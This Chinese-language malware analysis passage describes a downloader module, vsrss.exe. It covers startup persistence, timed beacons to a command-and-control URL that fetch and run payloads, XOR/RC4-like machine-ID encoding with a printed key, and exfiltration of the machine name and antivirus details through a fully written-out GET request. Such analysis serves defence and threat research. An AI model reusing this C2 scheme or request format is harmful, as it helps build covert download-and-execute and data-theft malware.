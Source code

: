 #### 下载执行

vsrss.exe是一个下载执行模块，该模块会先创建自身的快捷方式到启动文件夹，然后设置两个定时器，第一个定时器每隔240秒会请求URL：

[http://ebeijingcn.live/templates/software.php](http://ebeijingcn.live/templates/software.php)

然后通过返回的结果判断是否需要下载执行程序，如果返回的数据里有用于下载的URL，则通过UrlDownLoadToFile下载文件到%AppData%\Microsoft\Network目录并执行，另外一个定时器每隔180秒执行一次，会将机器名和一些杀软信息发送至服务器上。

初始化的时候会解密出一些需要的字符串的路径和URL：

[![](https://p5.ssl.qhimg.com/t01f25271773395d051.png)](https://p5.ssl.qhimg.com/t01f25271773395d051.png)

解密出URL：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0179a854ee9fe73597.png)

通过WQL查找杀软：

[![](https://p3.ssl.qhimg.com/t011fb97bb1511453ce.png)](https://p3.ssl.qhimg.com/t011fb97bb1511453ce.png)

机器码的算法是获取用户名和机器名，用_连接起来，然后和加密密钥{$%^^%$}运算生成256字节的字典，然后数据和生成的字典异或运算后(类RC4算法)，转换成hex值：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01357a0a8b8acfa218.png)

下图为生成字典的代码：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0119f32ded6965d8b2.png)

下图为和生成的字典运算生成加密数据的代码：

[![](https://p5.ssl.qhimg.com/t018080d935b9c9935d.png)](https://p5.ssl.qhimg.com/t018080d935b9c9935d.png)

定时器的内部的功能为每间隔240000ms执行一次请求URL操作，如果返回的数据是需要下载执行的，就会从返回的数据里取到URL下载文件并执行：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0137d9abbbe9286de7.png)

最后通过另外一个定时器每隔180000ms执行一次，触发定时器函数通过POST请求把其他的信息发送到URL： [http://ebeijingcn.live/templates/software.php](http://ebeijingcn.live/templates/software.php)，请求格式为：

[http://ebeijingcn.live/templates/software.php?cx=A44F63F1FFA477BCDB74FE69E54E94C20C2B0A&amp;b=A4457AF1E7A476BDDA35C449E331E0&amp;gt=A4457AF1E7A476BDDA35C449E331E09D48705E5ACACF76511A47C0&amp;tx=D06224ACBCFB41FC91678213A55A909A4E7C282CC0CD6F511847C0C778EA5553](http://ebeijingcn.live/templates/software.php?cx=A44F63F1FFA477BCDB74FE69E54E94C20C2B0A&amp;b=A4457AF1E7A476BDDA35C449E331E0&amp;gt=A4457AF1E7A476BDDA35C449E331E09D48705E5ACACF76511A47C0&amp;tx=D06224ACBCFB41FC91678213A55A909A4E7C282CC0CD6F511847C0C778EA5553)

GET请求中的各参数含义：
<td width="111">GET参数</td><td width="180">含义</td>
<td width="111">b</td><td width="180">机器标识</td>
<td width="111">cx</td><td width="180">杀软信息</td>
<td width="111">gt</td><td width="180">编码后的文件名</td>
<td width="111">tx</td><td width="180">编码后的文件HASH</td>
